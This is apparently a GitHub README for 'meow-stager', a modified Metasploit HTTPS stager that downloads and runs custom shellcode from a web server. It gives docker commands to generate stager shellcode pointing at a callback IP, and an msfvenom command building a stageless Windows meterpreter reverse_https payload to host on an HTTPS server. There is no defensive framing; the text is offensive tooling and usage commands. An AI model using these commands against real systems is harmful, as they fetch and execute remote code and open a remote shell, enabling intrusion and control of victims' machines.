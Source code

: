 # HTTPS Shellcode Stager
This repository modifies the Metasploit (msf) stager to enable downloading and loading customized shellcode from the internet.

The original msf stager shellcode windows/x64/meterpreter/reverse_https generates a random URI using `generate_uri_uuid_mode()` and hosts a server to send the raw binary shellcode.

I have modified the URI to be fixed, allowing customization of its parameters. Users should host their customized shellcode on an HTTPS webserver, such as with `simple-https-server.py` or another server like nginx (no certificate check required).


## Build the container
```
sudo docker build -t meow-stager .
```

## Usage
```
Usage:  -a <arch> -i <ip> -p <port> -u <uri> -f <format>
```

Example:
```
# Generate stager shellcode
sudo docker run -i --rm meow-stager -a x64 -i 192.168.xx.xx -p 443 -u file/meow -f ps1


# Generate stageless shellcode and host on simple-https-server
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.xx.xx LPORT=10001 LURI=msf -f raw 
sudo python3 simple-https-server.py 443
```

